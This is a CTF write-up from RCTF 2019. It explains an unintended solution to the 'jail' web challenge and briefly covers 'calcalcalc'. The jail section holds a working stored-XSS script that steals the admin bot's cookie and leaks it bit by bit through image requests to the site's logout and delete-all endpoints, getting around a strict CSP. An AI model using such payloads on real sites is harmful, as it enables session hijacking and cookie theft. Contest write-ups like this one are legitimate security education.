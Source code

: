 ```yaml
---
layout: post
title:  "RCTF 2019"
date:   2019-05-20 00:00:00 +0000
categories: writeups ctf
toc: true
---
```


Jail Writeup
------

For the intended solution, go to [this writeup](https://github.com/zsxsoft/my-ctf-challenges/tree/master/rctf2019/jail%20%26%20password)

Ok so I found an (un)intended way to solve `jail` challenge at [RCTF 2019](https://ctftime.org/event/812). First let's analyze the web application - [here if it's still up](https://jail.2019.rctf.rois.io/)

It's a web app written in PHP that requires the user to login and allows him to post messages for himself which are listed only to himself, send feedback to the admin with a post id (a headless browser instance checks them), to upload an avatar (can upload arbitrary content with any extension), to delete all posts and to logout.

![main_page](/assets/images/jail/mainpage.png)

Those are the endpoints
```
GET  /?action=login
POST /?action=login
GET  /?action=signup
POST /?action=signup

logged in only
GET  / - list all messages
POST / - post message with param message
GET  /?action=post&id=003ab6a68ba176a916c5d16510e5c4d7 - get message
GET  /?action=feedback - feedback page
POST /?action=feedback - post feedback with `id` and `captcha` which was a proof of work
GET  /?action=profile
POST /?action=profile
GET  /?action=index&method=delete
GET  /?action=index&method=logout
```

Well playing around I could see that messages are not stripped of html in any way. So the solution must be some type of XSS. Loading a message page, there was a hint.

```
Set-Cookie: hint1=flag1_is_in_cookie
Set-Cookie: hint2=meta_refresh_is_banned_in_server
```

Clearly XSS. But trying something I was quickly blocked by the following CSP:
```
sandbox allow-scripts allow-same-origin
base-uri 'none'
default-src 'self'
script-src 'unsafe-inline' 'self'
connect-src 'none'
object-src 'none'
frame-src 'none'
font-src data: 'self'
style-src 'unsafe-inline' 'self'
```

Everything looked like it was blocked. Nothing external available. But I saw some hope at `script-src 'unsafe-inline' 'self'`. Hmm maybe not, as the following script was prepended to my message content and was blocking redirects:

```html
<script>
window.addEventListener("beforeunload", function (event) {
  event.returnValue = "Are you sure want to exit?"
  return "Are you sure want to exit?"
})
Object.freeze(document.location) </script>
___MY_MESSAGE___
```

So let's go back the the feedback page. There I would enter the post id, solve the captcha and "some admin would check the link by hand" (headless browser lol). As the html from the post wasn't escaped, the admin would run our html and javascript. Meaning I could exfiltrate his cookies and do other stuff with his browser.

![feedback page preview](/assets/images/jail/feedback_page.png)

Ok. How can I exfiltrate the cookie without anything external? It was a bit obvious I could just send it internally. Just get the admin's cookie, replace his cookie with mine (meaning he would be logged as me) and just post a message with his cookie. Well, pretty good plan BUT the sandbox property of CSP wouldn't allow that (`sandbox allow-scripts allow-same-origin`). We would be needing `allow-forms`.

At least I can make get requests with an image. Maybe... This was an outrageous idea, but do you remember the `delete all` endpoint? It's a `GET`. And `logout` is also a `GET`. Maybe I can exfiltrate the cookie bit by bit. 1 goes to `delete all`, 0 goes to `logout`, and if it fails, nothing would happen so I would have to retry. Let's do some math. Let's say the flag has 40 chars. It's printable ASCII so we can assume the leftmost bit is 0. `0xxxxxxx`. We would have to send `40 * 7 = 280` requests. Pretty doable.

I tried it.

```html
<script>
i=0;
j=1;

v = document.cookie;
s = v.charCodeAt(i).toString(2).padStart(8, '0')[j];
document.cookie="PHPSESSID=mysessionid";

window.onload = function() {

method = null;
if (s === '1') {
    method = 'delete';
} else if(s === '0') {
    method = 'logout';
} else {
    method = 'bad';
}

document.write('<img src="https://jail.2019.rctf.rois.io/?action=index&method=' + method + '">');

};
</script>
```

IT FREAKING WORKS. I had to automate it and make it bad ass. Not a big deal. Remember the captcha from feedback? I pregenerated all of them, put them in a `marshal file` and loaded them at the start. `165M` of hashmap.

The plan is as follows:
1. Login if not logged in
2. Post the message and get post id
3. Send post id to feedback
4. Wait 5 seconds then check the main page
    * if logged out: return 0
    * elif no posts found: return 1 # posts deleted
    * else retry

![output](/assets/images/jail/output.png)

It worked. After like 20-30 minutes we got the flag. You can check out the source at [jail/bf.py](https://github.com/nytr0gen/rctf-2019-writeups/blob/master/jail/bf.py). I used comments :))

FLAG IS `RCTF{welc0me_t0_the_chaos_w0r1d}`

Sorry for spamming you guys at RCTF. I hope you enjoyed this alternative solution.

CALCALCALC
-----

I found a solution which I think was too easy for `calcalcalc`. Basically one could use `eval()` with `chr()` to escape this regex check `!/^[0-9a-z\[\]\(\)\+\-\*\/ \t]+$/i.test(str)`. The payload would run in python, and by using sleep and a binary search I was able to get the flag.

Source code at [calc/main.py](https://github.com/nytr0gen/rctf-2019-writeups/blob/master/calc/main.py)

FLAG IS `RCTF{watch_Kemurikusa_to_c4lm_d0wn}`
